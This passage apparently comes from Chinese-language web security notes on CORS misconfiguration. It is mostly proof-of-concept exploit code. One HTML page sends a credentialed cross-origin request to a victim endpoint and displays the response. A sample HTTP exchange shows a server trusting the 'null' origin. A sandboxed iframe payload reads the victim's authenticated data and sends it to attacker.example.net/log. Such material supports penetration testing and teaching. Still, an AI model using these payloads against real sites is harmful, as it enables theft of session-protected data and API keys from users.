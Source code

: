 ```html
<html>
    <body>
        <h2>CORS PoC</h2>
        <div id="demo">
            <button type="button" onclick="cors()">Exploit</button>
        </div>
        <script>
            function cors() {
                var xhr = new XMLHttpRequest();
                xhr.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("demo").innerHTML = alert(this.responseText);
                    }
                };
                xhr.open("GET", "https://victim.example.com/endpoint", true);
                xhr.withCredentials = true;
                xhr.send();
            }
        </script>
    </body>
</html>
```

### Null Origin

#### 漏洞实现

服务器可能不会完全反射`Origin`头，但允许`null`源：

```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### 概念验证(PoC)

使用iframe的data URI方案利用此漏洞：

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```
